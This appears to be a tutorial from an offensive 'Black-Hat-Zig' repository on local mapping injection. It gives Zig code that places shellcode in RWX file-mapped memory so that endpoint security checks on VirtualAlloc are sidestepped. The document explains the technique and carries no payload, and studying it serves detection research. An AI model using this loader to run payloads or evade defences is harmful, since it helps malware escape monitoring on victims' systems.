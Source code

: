 # Local Mapping Injection

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Advanced-Malware-Techniques/Process-Injection/Mapping-Injection/local_mapping_injection)

Local mapping injection is a technique that utilizes Windows file mapping APIs to create executable memory regions without directly calling `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions. This approach leverages mapped memory to execute shellcode within the current process, making it less suspicious to some security solutions.

## Why Mapping Injection

Traditional shellcode execution often relies on `VirtualAlloc` with `RWX` permissions, which is a common indicator monitored by security solutions. Mapping injection offers several advantages:

- **Use non-private memory**: Memory allocated through file mapping is classified as mapped memory rather than private memory
- **Evasion potential**: Some security tools may not monitor file mapping operations as closely as direct memory allocation
- **Legitimate API usage**: File mapping APIs are commonly used by legitimate applications for memory management

## Mapped Memory

In Windows, memory can be categorized into different types:

- **Private memory**: Memory allocated directly by the process (e.g., via `VirtualAlloc`)
- **Mapped memory**: Memory that is associated with a file or file mapping object

When using file mapping, the memory is classified as mapped memory, which can help bypass certain security mechanisms that specifically monitor private memory allocations with executable permissions.

## Local Mapping Injection

Local mapping injection works by:

1. Creating a file mapping object with `CreateFileMapping`
2. Mapping a view of the file into memory with `MapViewOfFile`
3. Writing shellcode to the mapped memory region
4. Executing the shellcode directly in the current process

This technique is particularly useful for:

- Executing shellcode in the current process
- Avoiding direct `VirtualAlloc` calls with executable permissions
- Creating memory regions that appear more legitimate to security solutions

## Needed Windows API

### CreateFileMapping

```zig
extern "kernel32" fn CreateFileMappingW(
    hFile: HANDLE,
    lpFileMappingAttributes: ?*windows.SECURITY_ATTRIBUTES,
    flProtect: DWORD,
    dwMaximumSizeHigh: DWORD,
    dwMaximumSizeLow: DWORD,
    lpName: ?[*:0]const u16,
) callconv(WINAPI) ?HANDLE;
```

Creates a file mapping object for a specified file. When `hFile` is set to `INVALID_HANDLE_VALUE`, it creates a file mapping object backed by the system paging file.

**Parameters:**

- `hFile`: Handle to the file (use `INVALID_HANDLE_VALUE` for paging file)
- `lpFileMappingAttributes`: Security attributes (can be null)
- `flProtect`: Memory protection (e.g., `PAGE_EXECUTE_READWRITE`)
- `dwMaximumSizeHigh`: High-order DWORD of maximum size
- `dwMaximumSizeLow`: Low-order DWORD of maximum size
- `lpName`: Name of the file mapping object (can be null)

### MapViewOfFile

```zig
extern "kernel32" fn MapViewOfFile(
    hFileMappingObject: HANDLE,
    dwDesiredAccess: DWORD,
    dwFileOffsetHigh: DWORD,
    dwFileOffsetLow: DWORD,
    dwNumberOfBytesToMap: SIZE_T,
) callconv(WINAPI) ?PVOID;
```

Maps a view of a file mapping into the address space of the calling process.

**Parameters:**

- `hFileMappingObject`: Handle to the file mapping object
- `dwDesiredAccess`: Access permissions (e.g., `FILE_MAP_WRITE | FILE_MAP_EXECUTE`)
- `dwFileOffsetHigh`: High-order DWORD of file offset
- `dwFileOffsetLow`: Low-order DWORD of file offset
- `dwNumberOfBytesToMap`: Number of bytes to map

## localMapInject Function

The core function that performs the local mapping injection:

```zig
fn localMapInject(pPayload: []const u8, ppAddress: *?PVOID) bool {
    var bState: bool = true;
    var hFile: ?HANDLE = null;
    var pMapAddress: ?PVOID = null;

    // Create a file mapping handle with RWX memory permissions
    hFile = CreateFileMappingW(
        INVALID_HANDLE_VALUE,
        null,
        PAGE_EXECUTE_READWRITE,
        0,
        @intCast(pPayload.len),
        null,
    );

    if (hFile == null) {
        print("[!] CreateFileMapping Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        return bState;
    }

    // Map the view of the payload to memory
    pMapAddress = MapViewOfFile(
        hFile.?,
        FILE_MAP_WRITE | FILE_MAP_EXECUTE,
        0,
        0,
        pPayload.len,
    );

    if (pMapAddress == null) {
        print("[!] MapViewOfFile Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        bState = false;
        ppAddress.* = null;
        if (hFile) |handle| _ = CloseHandle(handle);
        return bState;
    }

    print("[i] pMapAddress : 0x{X}\n", .{@intFromPtr(pMapAddress.?)});

    // Copy payload to mapped memory
    const dest = @as([*]u8, @ptrCast(pMapAddress.?));
    @memcpy(dest[0..pPayload.len], pPayload);

    ppAddress.* = pMapAddress;
    if (hFile) |handle| _ = CloseHandle(handle);
    return bState;
}
```

**Process Flow:**

1. **Create file mapping**: Uses `CreateFileMappingW` with `INVALID_HANDLE_VALUE` to create a mapping backed by the paging file
2. **Map view**: Uses `MapViewOfFile` to map the file into the process address space with write and execute permissions
3. **Copy payload**: Copies the shellcode into the mapped memory region
4. **Return address**: Returns the base address of the mapped memory for execution

## UnmapViewOfFile

```zig
extern "kernel32" fn UnmapViewOfFile(lpBaseAddress: PVOID) callconv(WINAPI) BOOL;
```

While not used in this specific example, `UnmapViewOfFile` is important for cleanup operations. It unmaps a mapped view of a file from the calling process's address space.

**Usage:**

```zig
// Clean up the mapped memory
if (pMapAddress) |addr| {
    _ = UnmapViewOfFile(addr);
}
```

## Key Advantages

1. **Evasion**: Uses legitimate file mapping APIs instead of direct memory allocation
2. **Memory classification**: Creates mapped memory rather than private memory
3. **Flexibility**: Can be extended for more complex scenarios like remote process injection
4. **Legitimate appearance**: File mapping is commonly used by legitimate applications

## Limitations

1. **Local execution only**: This implementation only works within the current process
2. **Still detectable**: Advanced security solutions may still detect the technique
3. **Memory permissions**: Still requires executable memory permissions, which can be monitored

This technique demonstrates how alternative Windows APIs can be used to achieve similar results to traditional methods while potentially evading some security controls.

